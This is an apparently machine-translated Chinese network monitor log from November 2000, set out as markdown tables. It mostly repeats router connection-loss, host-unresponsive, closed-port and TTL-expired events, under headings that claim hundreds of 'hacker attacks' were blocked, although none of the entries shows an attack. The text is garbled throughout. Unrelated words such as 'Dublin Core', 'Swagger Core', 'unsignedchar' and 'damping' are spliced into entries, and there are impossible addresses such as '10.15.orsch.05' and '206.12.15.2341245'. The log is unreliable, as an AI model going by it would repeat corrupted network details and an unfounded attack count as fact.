| 已确认 | 11/28/00 20:10 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 19:55 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 19:40 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 19:25 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 19:10 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 18:55 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 18:40 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 18:25 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 18:10 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 17:55 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 17:40 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 17:25 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 17:10 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 16:55 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 16:40 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 16:25 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 16:10 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 15:55 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 15:40 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 15:25 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 15:10 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 14:55 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 14:40 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 14:25 | 1 | 主机 compaq6400(10.15.1.81) 无响应。 |
| 已确认 | 11/28/00 14:10 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 13:55 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 13:40 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 13:25 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 13:10 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 12:55 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 12:40 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 12:25 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 12:10 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 11:55 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 11:40 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 11:25 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 11:10 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 10:55 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 10:40 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 10:25 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 10:10 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 9:55 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 9:40 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 9:25 | 1 | 主机 NS1(208.0.121.2) 无响应。 |
| 已确认 | 11/28/00 9:10 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 8:55 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 8:40 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 8:25 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 8:10 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 7:55 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 7:40 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 7:25 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 7:10 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 6:55 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 6:40 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 6:25 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 6:10 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 5:55 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 5:40 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 5:25 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |
| 已确认 | 11/28/00 5:10 | 3 | 路由器失去与 10.15.0.5 的连接。数据包从 10.15.0.1 发出。 |


 584 次黑客攻击已拦截

| 状态 | 日志时间 | 级别 | 描述 |
|--------|----------|-------|-------------|
| Acked | 11/28/00 4:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/28/00 4:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/28/00 4:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/28/00 4:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/28/00 3:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/28/00 3:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/28/00 3:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/28/00 3:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/28/00 2:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/28/00 2:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/28/00 2:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/28/00 2:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/28/00 1:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/28/00 1:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/28/00 1:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/28/00 1:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/28/00 0:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/28/00 0:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/28/00 0:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/28/00 0:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 23:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 23:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 23:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 23:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 22:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 22:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 22:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 22:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 21:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 21:40 | 3 | 路由器 Dublin Core 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 21:36 | 3 | 10.15.0.1 未监听端口 161。数据包来自 10.1.1.45。 |
| Acked | 11/27/00 21:36 | 3 | 10.15.0.1 未监听端口 161。数据包来自 10.1.1.45。 |
| Acked | 11/27/00 21:36 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 21:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 21:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 20:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 20:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 20:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 20:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 19:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 19:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 19:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 19:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包 AEM 10.15.0.1。 |
| Acked | 11/27/00 18:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 18:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 18:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 18:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 17:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 17:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 17:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 17:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 16:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 16:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 16:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 16:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 15:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 15:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 15:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 15:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 14:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 14:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 14:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 14:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 13:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 13:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 13:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 13:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 12:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 12:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 12:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 12:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 11:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 11:40 | 3 | 路由器与 Swagger Core 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 11:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自osi 10.15.0.1。 |
| Acked | 11/27/00 11:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 10:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 10:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 10:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 10:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 9:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 9:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 9:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 9:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 8:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 8:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 8:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 8:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 7:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 7:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 7:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 7:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 6:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 6:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 6:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 6:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 5:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 5:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 5:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 5:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 5:07 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 5:07 | 3 | 路由器与 10.15.0.5 失去连接。数据包来自 10.15.0.1。 |
| Acked | 11/27/00 5:07 | 1 | 主机 NS1(208.0.121.2) 未响应。 |


 | 状态 | 日志时间 | 级别 | 描述 |
|--------|----------|-------|-------------|
| 已确认 | 11/27/00 4:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包从 10.15.0.1 发送。 |
| 已确认 | 11/27/00 4:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包从 10.15.0.1 发送。 |
| 已确认 | 11/27/00 4:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包从 10.15.0.1 发送。 |
| 已确认 | 11/27/00 4:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包从 10.15.0.1 发送。 |
| 已确认 | 11/27/00 3:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包从 10.15.0.1 发送。 |
| 已确认 | 11/27/00 3:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包从 10.15.0.1 发送。 |
| 已确认 | 11/27/00 3:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包从 10.15.0.1 发送。 |
| 已确认 | 11/27/00 3:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包从 10.15.0.1 发送。 |
| 已确认 | 11/27/00 2:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包从 10.15.0.1 发送。 |
| 已确认 | 11/27/00 2:40 | 3 | 路由器与 10.15.orsch.05 失去连接。数据包从 10.15.0.1 发送。 |
| 已确认 | 11/27/00 2:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包从 10.15.0.1 发送。 |
| 已确认 | 11/27/00 2:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包从 10.15.0.1 发送。 |
| 已确认 | 11/27/00 1:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包从 10.15.0.1 发送。 |
| 已确认 | 11/27/00 1:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包从 10.15.0.1 发送。 |
| 已确认 | 11/27/00 1:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包从 10.15.0.1 发送。 |
| 已确认 | 11/27/00 1:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包从 10.15.0.1 发送。 |
| 已确认 | 11/27/00 0:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包从 10.15.0.1 发送。 |
| 已确认 | 11/27/00 0:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包从 10.15.0.1 发送。 |
| 已确认 | 11/27/00 0:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包从 10.15.0.1 发送。 |
| 已确认 | 11/27/00 0:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包从 10.15.0.1 发送。 |
| 已确认 | 11/26/00 23:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包从 10.15.0.1 发送。 |
| 已确认 | 11/26/00 23:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包从 10.15.0.1 发送。 |
| 已确认 | 11/26/00 23:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包从 10.15.0.1 发送。 |
| 已确认 | 11/26/00 23:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包从 10.15.0.1 发送。 |
| 已确认 | 11/26/00 23:04 | 3 | 路由器与 10.15.0.5 失去连接。数据包从 10.15.0.1 发送。 |
| 已确认 | 11/26/00 22:57 | 1 | 主机 iis1(10.15.1.55) 的 HTTP(WWW) 服务未能响应。 |
| 已确认 | 11/26/00 22:56 | 1 | 主机 206.12.15.2341245 的 HTTP(WWW) 服务未能响应。 |
| 已确认 | 11/26/00 22:56 | 3 | 路由器与 10.15.0.5 失去连接。数据包从 10.15.0.1 发送。 |
| 已确认 | 11/26/00 22:56 | 1 | 主机 iis1(10.15.1.55) 的 HTTP(WWW) 服务未能响应。 |
| 已确认 | 11/26/00 22:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包从 10.15.0.1 发送。 |
| 已确认 | 11/26/00 22:51 | 3 | 路由器与 10.15.0.5 失去连接。数据包从 10.15.0.1 发送。 |
| 已确认 | 11/26/00 22:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包从 10.15.0.1 发送。 |
| 已确认 | 11/26/00 22:38 | 3 | 路由器与 10.15.0.5 失去连接。数据包从 10.15.0.1 发送。 |
| 已确认 | 11/26/00 22:35 | 3 | 10.15.0.1 未监听端口 1986。数据包来自 10.250.1.13。 |

## # 588 次黑客攻击被拒绝

| 状态 | 日志时间 | 级别 | 描述 |
|--------|----------|-------|-------------|
| 已确认 | 11/26/00 22:35 | 3 | 10.15.0.1 未监听端口 1986。数据包来自 208.0.121.2。 |
| 已确认 | 11/26/00 22:35 | 3 | 10.15.0.1 未监听端口 1985。数据包来自 10.250.1.13。 |
| 已确认 | 11/26/00 22:35 | 3 | 10.15.0.1 未监听端口 1985。数据包来自 208.0.121.2。 |
| 已确认 | 11/26/00 22:26 | 3 | 路由器与 10.15.0.5 失去连接。数据包从 10.15.0.1 发送。 |
| 已确认 | 11/26/00 22:26 | 3 | 路由器与 10.15.0.5 失去连接。数据包从 10. RCA .0.1 发送。 |
| 已确认 | 11/26/00 22:26 | 1 | 主机 sql3(10.15.1.61) 未能响应。 |
| 已确认 | 11/26/00 22:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包从 10.15.0.1 发送。 |
| 已确认 | 11/26/00 22:19 | 3 | 10.15.0.1 未监听端口 1965。数据包来自 208.0.121.2。 |
| 已确认 | 11/26/00 22:19 | 3 | 10.15.0.1 未监听端口 1965。数据包来自 208.0.121.2。 |
| 已确认 | 11/26/00 22:19 | 3 | 10.15.0.1 未监听端口 1965。数据包来自 10.250.1.13。 |
| 已确认 | 11/26/00 22:19 | 3 | 10.15.0.1 未监听端口 1965。数据包来自 10.250.1.13。 |
| 已确认 | 11/26/00 22:19 | 3 | 10.15.0.1 未监听端口 1965。数据包来自 10.250.1.13。 |
| 已确认 | 11/26/00 22:18 | 3 | 数据包到达 209.67.45.225 时 TTL 已过期。数据包从 10.15.0.1 发送至 206.0.139.67。 |
| 已确认 | 11/26/00 22:18 | 3 | 数据包到达 209.67.45.225 时 TTL 已过期。数据包从 10.15.0.1 发送至 206.0.139.67。 |
| 已确认 | 11/26/00 22:18 | 3 | 数据包到达 209.67.45.225 时 TTL 已过期。数据包从 10.15.0.1 发送至 206.0.139.67。 |
| 已确认 | 11/26/00 22:18 | 3 | 数据包到达 216.32.132.110 时 TTL 已过期。数据包从 10.15.0.1 发送至 206.0.139.67。 |
| 已确认 | 11/26/00 22:18 | 3 | 数据包到达 216.32.132.110 时 TTL 已过期。数据包从 10.15.0.1 发送至 206.0.139.67。 |
| 已确认 | 11/26/00 22:18 | 3 | 数据包到达 216.32.132.110 时 TTL 已过期。数据包从 10.15.0.1 发送至 206.0.139.67。 |
| 已确认 | 11/26/00 22:18 | 3 | 数据包到达 216.32.173.226 时 TTL 已过期。数据包从 10.15.0.1 发送至 206.0.139.67。 |
| 已确认 | 11/26/00 22:18 | 3 | 数据包到达 216.32.173.226 时 TTL 已过期。数据包从 10.15.0.1 发送至 206.0.139.67。 |
| 已确认 | 11/26/00 22:18 | 3 | 数据包到达 216.32.173.226 时 TTL 已过期。数据包从 10.15.0.1 发送至 206.0.139.67。 |
| 已确认 | 11/26/00 22:18 | 3 | 数据包到达 216.33.64.84 时 TTL 已过期。数据包从 10.15.0.1 发送至 206.0.139.67。 |
| 已确认 | 11/26/00 22:18 | 3 | 数据包到达 216.33.64.84 时 TTL 已过期。数据包从 unsignedchar.15.0.1 发送至 206.0.139.67。 |
| 已确认 | 11/26/00 22:18 | 3 | 数据包到达 216.33.64.84 时 TTL 已过期。数据包从 10.15.0.1 发送至 206.0.139.67。 |
| 已确认 | 11/26/00 22:18 | 3 | 206.12.15.226 未监听端口 137。数据包来自 10.15.0.1。 |

| 状态 | 日志时间 | 级别 | 描述 |
|--------|----------|-------|-------------|
| 已确认 | 11/26/00 22:18 | 3 | 206.12.15.226 未监听端口 137。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 22:18 | 3 | 数据包到达 206.12.15.226 时 TTL 已过期。数据包从 10.15.0.1 发送至 206.0.139.67。 |
| 已确认 | 11/26/00 22:18 | 3 | 数据包到达 206.12.15.226 时 TTL 已过期。数据包从 10.15.0.1 发送至 206.0.139.67。 |
| 已确认 | 11/26/00 22:18 | 3 | 206.12.15.226 未监听端口 137。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 22:18 | 3 | 数据包到达 206.12.15.226 时 TTL 已过期。数据包从 10.15.0.1 发送至 206.0.139.67。 |
| 已确认 | 11/26/00 22:18 | 3 | 数据包到达 10.251.0.2 时 TTL 已过期。数据包从 10.15.0.1 发送至 206.0.139.67。 |
| 已确认 | 11/26/00 22:18 | 3 | 数据包到达 10.251.0.2 时 TTL 已过期。数据包从 10.15.0.1 发送至 206.0.139.67。 |
| 已确认 | 11/26/00 22:18 | 3 | 数据包到达 10.251.0.2 时 TTL 已过期。数据包从 10.15.0.1 发送至 206.0.139.67。 |
| 已确认 | 11/26/00 22:18 | 3 | 数据包 damping dampingdampingdamping.15.0.1 时 TTL 已过期。数据包从 10.15.0.1 发送至 206.0.139.67。 |
| 已确认 | 11/26/00 22:18 | 3 | 数据包到达 10.15.0.1 时 TTL 已过期。数据包从 10.15.0.1 发送至 206.0.139.67。 |
| 已确认 | 11/26/00 22:18 | 3 | 10.15.0.1 未监听端口 137。数据包来自 10.15.0.1。 |
| 已确认 | 11/26/00 22:18 | 3 | 数据包到达 10.15.0.1 时 TTL 已过期。数据包从 10.15.0.1 发送至 206.0.139.67。 |
| 已确认 | 11/26/00 22:12 | 3 | 路由器与 10.15.0.5 失去连接。数据包从 10.15.0.1 发送。 |
| 已确认 | 11/26/00 22:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包从 10.15.0.1 发送。 |
| 已确认 | 11/26/00 21:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包从 10.15.0.1 发送。 |
| 已确认 | 11/26/00 21:40 | 3 | 路由器与 10.15.0.5 失去连接。数据包从 10.15.0.1 发送。 |
| 已确认 | 11/26/00 21:38 | 3 | 10.15.0.1 未监听端口 161。数据包来自 10.1.1.45。 |
| 已确认 | 11/26/00 21:38 | 3 | 10.15.0.1 未监听端口 161。数据包来自 10.1.1.45。 |
| 已确认 | 11/26/00 21:38 | 3 | 路由器与 10.15.0.5 失去连接。数据包从 10.15.0.1 发送。 |
| 已确认 | 11/26/00 21:25 | 3 | 路由器与 10.15.0.5 失去连接。数据包从 10.15.0.1 发送。 |
| 已确认 | 11/26/00 21:10 | 3 | 路由器与 10.15.0.5 失去连接。数据包从 10.15.0.1 发送。 |
| 已确认 | 11/26/00 20:55 | 3 | 路由器与 10.15.0.5 失去连接。数据包从 10.15.0.1 发送。 |
